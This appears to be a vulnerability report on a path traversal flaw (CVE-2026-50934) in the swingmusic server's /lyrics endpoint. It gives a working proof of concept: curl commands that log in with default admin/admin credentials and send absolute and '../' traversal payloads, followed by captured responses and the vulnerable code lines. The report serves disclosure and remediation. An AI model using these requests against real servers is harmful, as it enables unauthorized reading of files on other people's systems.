



# CVE-2026-50934 — Path Traversal in swingmusic `/lyrics` endpoint (arbitrary-path restricted file read)

[CVE ID]
CVE-2026-50934

[PRODUCT]
swingmx/swingmusic — a self-hosted music streaming server (Python, flask_openapi3) with a built-in web client.

[VERSION]
commit `65a1268dabbfd15842ef67e8b8f6bef7ea7a208d` (2026-01-19, "Add 'Martha Reeves and the Vandellas' to default artist split ignore list")

[PROBLEM TYPE]
Directory Traversal (`CWE-22`) leading to arbitrary-path restricted file read

## Description

`POST /lyrics` (and `POST /lyrics/check`, which delegates to the same handler) accepts a JSON body whose `filepath` field is fully attacker-controlled. In `send_lyrics()` the raw value is taken as `filepath = body.filepath` and passed to `get_lyrics_file()` in `src/swingmusic/lib/lyrics.py`, which does `Path(track_path).with_suffix(".lrc")` / `.with_suffix(".rlrc")` followed by `read_text()` — with no validation that the path lies inside a configured music-library root, no correspondence check against the supplied `trackhash`, and no `resolve()`/`is_relative_to()` containment guard. Because the path is used verbatim, an absolute path or a relative dot-dot chain escapes the intended library directory entirely, and the file's contents are parsed as lyrics and returned in the HTTP response.

Vulnerable code:
- https://github.com/swingmx/swingmusic/blob/65a1268dabbfd15842ef67e8b8f6bef7ea7a208d/src/swingmusic/api/lyrics.py#L21-L43 (route + `filepath = body.filepath` + `get_lyrics_file(filepath)`)
- https://github.com/swingmx/swingmusic/blob/65a1268dabbfd15842ef67e8b8f6bef7ea7a208d/src/swingmusic/lib/lyrics.py#L254-L272 (`Path(track_path).with_suffix(...)` + `read_text()` sinks)

## Proof of Concept

### Victim setup

Built from the pinned commit (kc1 host, local Docker, no external network needed at runtime):

```bash
git clone https://github.com/swingmx/swingmusic.git
cd swingmusic
git checkout 65a1268dabbfd15842ef67e8b8f6bef7ea7a208d
docker build -t scdd-platform/swingmusic:65a1268d .

docker rm -f scdd_50934_swing >/dev/null 2>&1 || true
docker run -d --name scdd_50934_swing -p 127.0.0.1:34523:1970 scdd-platform/swingmusic:65a1268d
# wait for readiness, then confirm:
curl -fsS -o /dev/null -w "GET / -> %{http_code}\n" http://127.0.0.1:34523/   # -> 200
```

A marker `.lrc` file was then placed inside the container as a deterministic observable (forensic convenience — see Evidence note):

```bash
docker exec scdd_50934_swing bash -lc "printf '%s\n' 'CVE50934_MARKER_LYRICS_1790569104' \
  > /tmp/scdd_50934_lyrics_1790569104.lrc; : > /tmp/scdd_50934_lyrics_1790569104.mp3"
```



### Attack steps

All requests issued from the same host against `http://127.0.0.1:34523`. The API requires a JWT, obtained here with the runtime's default `admin/admin` credentials (default-deployment behavior):

```bash
# 1) authenticate and capture the access token
RESP="$(curl -sS -X POST http://127.0.0.1:34523/auth/login -H 'Content-Type: application/json' \
  --data-binary '{"username":"admin","password":"admin"}')"
# -> {"accesstoken":"eyJ...","msg":"Logged in as admin",...}
TOKEN="$(printf '%s' "$RESP" | python3 -c 'import json,sys; print(json.loads(sys.stdin.read() or "{}").get("accesstoken",""))')"
test -n "$TOKEN"

# 2) variant A — absolute path outside the music library (reads <filepath>.lrc in /tmp)
curl -sS -X POST http://127.0.0.1:34523/lyrics -H 'Content-Type: application/json' \
  -H "Authorization: Bearer ${TOKEN}" \
  --data-binary '{"filepath":"/tmp/scdd_50934_lyrics_1790569104.mp3","trackhash":"0000000000000000"}'

# 3) variant B — relative dot-dot traversal from the server cwd (/app)
curl -sS -X POST http://127.0.0.1:34523/lyrics -H 'Content-Type: application/json' \
  -H "Authorization: Bearer ${TOKEN}" \
  --data-binary '{"filepath":"../../../../../../../tmp/scdd_50934_lyrics_1790569104.mp3","trackhash":"0000000000000000"}'

# 4) negative control — path whose .lrc does not exist
curl -sS -X POST http://127.0.0.1:34523/lyrics -H 'Content-Type: application/json' \
  -H "Authorization: Bearer ${TOKEN}" \
  --data-binary '{"filepath":"/tmp/scdd_50934_not_present_1790569104.mp3","trackhash":"0000000000000000"}'
```



### Evidence

Observed responses (verbatim from the transcript in `evidence/transcript.txt`):

```
variant A http_status=200
{"copyright":"","lyrics":["CVE50934_MARKER_LYRICS_1790569104"],"synced":false}

variant B http_status=200
{"copyright":"","lyrics":["CVE50934_MARKER_LYRICS_1790569104"],"synced":false}

negative control http_status=200
{"error":"No lyrics found"}
```

The server returned the contents of `/tmp/scdd_50934_lyrics_1790569104.lrc` — a file outside any music-library directory — for both the absolute path and the relative `../` traversal, while a nonexistent target yields the ordinary "No lyrics found" error (proving the disclosure is the intended read path, not a crash or unrelated bug). Container-side ground truth confirms the file only exists under `/tmp` and contains exactly the marker that appeared in the HTTP responses:

```
$ docker exec scdd_50934_swing bash -lc 'cat /tmp/scdd_50934_lyrics_1790569104.lrc'
CVE50934_MARKER_LYRICS_1790569104
```

Additional context captured in the transcript: the server process runs with cwd `/app`, and the fresh instance has no `root_dirs` configured — i.e. the `filepath` is in no way constrained to a library root.

Forensic note (honesty): the marker `.lrc` was written into `/tmp` inside the container by the operator before the attack so the effect would be deterministic and non-destructive. What the vulnerability actually exposes to a remote attacker is the content of any pre-existing `.lrc`/`.rlrc` file on the server that is readable by the server process (e.g. lyric sidecars of the music library or any other `.lrc`-suffixed file elsewhere on disk); the marker stands in for such a file.



## Impact

- A remote attacker who can authenticate (the `/lyrics` endpoint requires a Bearer JWT; the default Docker deployment ships usable default `admin/admin` credentials, which is how the PoC logged in) can retrieve, in the HTTP response body, the parsed lyric content of any readable `.lrc`/`.rlrc` file at any path on the server filesystem readable by the server process. The server parses and reformats the file as lyrics, so the response is the parsed lyric representation rather than a byte-exact copy of the file. Both absolute paths and relative dot-dot traversals work.
- The read primitive is path-arbitrary but suffix-restricted: the server replaces the last suffix of the supplied `filepath` with `.lrc` (then `.rlrc`), so arbitrary files such as `/etc/passwd` cannot be read directly — only `*.lrc` / `*.rlrc` files (`任意路径：是；任意文件读取：否`).
- Via the sibling endpoint `POST /lyrics/check` (which calls the same handler) the same flaw also yields an existence oracle for any `<path>.lrc` / `<path>.rlrc` (`{"exists": true/false}`).
- No write or execution primitive exists on this path; the CVE record's wording "execute arbitrary code" was not substantiated by the code or the reproduction — the demonstrated effect is a restricted arbitrary-path file read (CWE-22).
- Severity per the case archive: high (sensitive lyric/sidecar files outside the library root can be disclosed).

## Occurrences

- `src/swingmusic/api/lyrics.py:L17-L18` — `SendLyricsBody.filepath`: attacker-controlled, unvalidated path string
- `src/swingmusic/api/lyrics.py:L21-L22` — `@api.post("")` under `url_prefix="/lyrics"` → `send_lyrics`
- `src/swingmusic/api/lyrics.py:L31` — `filepath = body.filepath` used verbatim
- `src/swingmusic/api/lyrics.py:L43` — `lyrics = get_lyrics_file(filepath)` (sink call, no containment)
- `src/swingmusic/api/lyrics.py:L65-L70` — `POST /lyrics/check` delegates to `send_lyrics` (existence oracle)
- `src/swingmusic/lib/lyrics.py:L261-L263` — `Path(track_path)` + `with_suffix(".lrc")` / `with_suffix(".rlrc")`, no library-root containment
- `src/swingmusic/lib/lyrics.py:L267` — `Lyrics(lyrics_path.read_text())` — file-read sink
- `src/swingmusic/lib/lyrics.py:L271` — `Lyrics(extended_path.read_text())` — file-read sink

## References

- [CVE-2026-50934](https://www.cve.org/CVERecord?id=CVE-2026-50934)
- Upstream repository: https://github.com/swingmx/swingmusic
- Pinned commit: https://github.com/swingmx/swingmusic/tree/65a1268dabbfd15842ef67e8b8f6bef7ea7a208d
